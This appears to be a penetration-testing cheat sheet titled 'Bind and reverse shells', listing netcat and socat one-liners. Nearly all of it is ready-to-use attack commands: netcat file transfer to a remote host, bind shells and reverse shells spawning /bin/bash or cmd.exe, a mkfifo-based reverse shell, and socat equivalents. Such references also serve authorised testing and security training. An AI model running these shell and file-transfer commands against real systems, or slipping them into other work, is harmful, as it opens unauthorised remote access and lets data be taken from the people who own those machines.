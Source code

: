 ```yaml
---
description: Bind and reverse shells
---
```


# Shells

## NetCat

#### Transfer file

```
nc -nv <dest ip> <port> < file               #send file
nc -nlvp <port> > file_local                 #receive file
```

#### Bind shell

Use [rlwrap](https://github.com/hanslub42/rlwrap) to enable history and command recall  support on both cmd and bash shells

```
nc -nlvp <port> -e <cmd.exe or /bin/bash>    #remote
rlwrap nc -nlvp <port> -e <cmd.exe or /bin/bash>
```

#### Reverse shell

```
nc -nv <target ip> <port> -e <cmd.exe or /bin/bash>    #remote
rlwrap nc -nv <target ip> <port> -e <cmd.exe or /bin/bash>
```

#### Reverse shell BSD version

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f              
```

## Socat

#### Transfer file

```
socat TCP4-LISTEN:<port>,fork file:<filename>             #send file
socat TCP4:<ip>:<port> file:filename_local,create         #receive file
```

#### Bind shell

```
socat TCP4-LISTEN:<port>,fork EXEC:cmd.exe,pipes          #remote windows
socat TCP4-LISTEN:<port>,fork EXEC:/bin/bash              #remote linux
socat – TCP4:<ip>:<port>                                  #local
```
